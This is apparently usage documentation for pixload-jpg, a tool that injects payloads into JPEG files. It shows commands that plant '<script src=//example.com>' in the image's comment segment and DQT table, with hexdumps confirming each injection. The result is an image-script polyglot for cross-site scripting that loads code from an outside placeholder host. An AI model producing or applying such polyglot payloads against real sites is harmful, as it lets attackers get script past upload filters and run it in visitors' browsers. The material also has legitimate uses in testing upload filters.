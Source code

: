 1. Inject payload into comment section:

```sh
$ pixload-jpg -S com payload.jpg
```

```
........ JPEG Payload Creator/Injector ........
...............................................
... https://github.com/chinarulezzz/pixload ...
...............................................

[>] Generating output file
[✔] File saved to: payload.jpg

[>] Injecting payload into COMMENT
[✔] Payload was injected successfully

payload.jpg: JPEG image data, progressive, precision 8, 1x1, components 1

00000000  ff d8 ff fe 00 25 3c 73  63 72 69 70 74 20 73 72  |.....%<script sr|
00000010  63 3d 2f 2f 65 78 61 6d  70 6c 65 2e 63 6f 6d 3e  |c=//example.com>|
00000020  3c 2f 73 63 72 69 70 74  3e ff db 00 43 00 01 01  |</script>...C...|
00000030  01 01 01 01 01 01 01 01  01 01 01 01 01 01 01 01  |................|
*
00000060  01 01 01 01 01 01 01 01  01 01 01 01 01 01 ff c2  |................|
00000070  00 0b 08 00 01 00 01 01  01 11 00 ff c4 00 14 00  |................|
00000080  01 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000090  03 ff da 00 08 01 01 00  00 00 01 3f ff d9        |...........?..|
0000009e
```

2. Inject payload into DQT table:

```sh
$ pixload-jpg -S dqt payload.jpg
```

```
........ JPEG Payload Creator/Injector ........
...............................................
... https://github.com/chinarulezzz/pixload ...
...............................................

[>] Generating output file
[✔] File saved to: payload.jpg

[>] Injecting payload into DQT table
[✔] Payload was injected succesfully

payload.jpg: JPEG image data, progressive, precision 8, 1x1, components 1

00000000  ff d8 ff db 00 43 00 01  01 01 01 01 01 01 01 01  |.....C..........|
00000010  01 01 01 01 01 01 01 01  01 01 01 01 01 01 01 01  |................|
00000020  01 01 01 01 3c 73 63 72  69 70 74 20 73 72 63 3d  |....<script src=|
00000030  2f 2f 65 78 61 6d 70 6c  65 2e 63 6f 6d 3e 3c 2f  |//example.com></|
00000040  73 63 72 69 70 74 3e ff  c2 00 0b 08 00 01 00 01  |script>.........|
00000050  01 01 11 00 ff c4 00 14  00 01 00 00 00 00 00 00  |................|
00000060  00 00 00 00 00 00 00 00  00 03 ff da 00 08 01 01  |................|
00000070  00 00 00 01 3f ff d9 01  01 11 00 ff c4 00 14 00  |....?...........|
00000080  01 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000090  03 ff da 00 08 01 01 00  00 00 01 3f ff d9        |...........?..|
0000009e
```
